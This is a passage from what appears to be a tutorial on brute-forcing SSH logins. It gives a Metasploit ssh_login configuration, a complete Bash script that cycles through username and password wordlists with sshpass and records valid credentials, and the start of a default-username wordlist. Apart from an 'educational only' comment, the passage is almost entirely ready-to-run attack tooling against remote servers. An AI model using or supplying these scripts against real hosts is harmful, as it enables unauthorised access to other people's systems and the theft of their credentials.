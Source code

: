 ### Method 4: Metasploit
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP>
set USER_FILE /path/to/users.txt
set PASS_FILE /path/to/passwords.txt
set THREADS 4
set VERBOSE true
run
```

### Method 5: Custom Bash Script
```bash
#!/bin/bash
# ssh-brute.sh - Simple SSH brute force (educational only)

TARGET="$1"
PORT="${2:-22}"
USERS="users.txt"
PASSWORDS="passwords.txt"

if [[ $# -lt 1 ]]; then
  echo "Usage: $0 <IP> [port]"
  exit 1
fi

while IFS= read -r user; do
  while IFS= read -r pass; do
    echo "Trying: $user:$pass"
    
    # Use sshpass (install: apt install sshpass)
    timeout 10 sshpass -p "$pass" ssh -o StrictHostKeyChecking=no \
      -o ConnectTimeout=5 -p "$PORT" "$user@$TARGET" "exit" 2>/dev/null
    
    if [[ $? -eq 0 ]]; then
      echo "[SUCCESS] Valid credentials: $user:$pass"
      echo "$user:$pass" >> ssh-valid-creds.txt
      exit 0
    fi
    
    sleep 1  # Rate limiting
  done < "$PASSWORDS"
done < "$USERS"

echo "No valid credentials found"
```

### Creating Wordlists

#### Common Users File (users.txt)
```bash
cat > users.txt <<EOF
root
admin
administrator
user
test
guest
ubuntu
debian
kali
parrot
```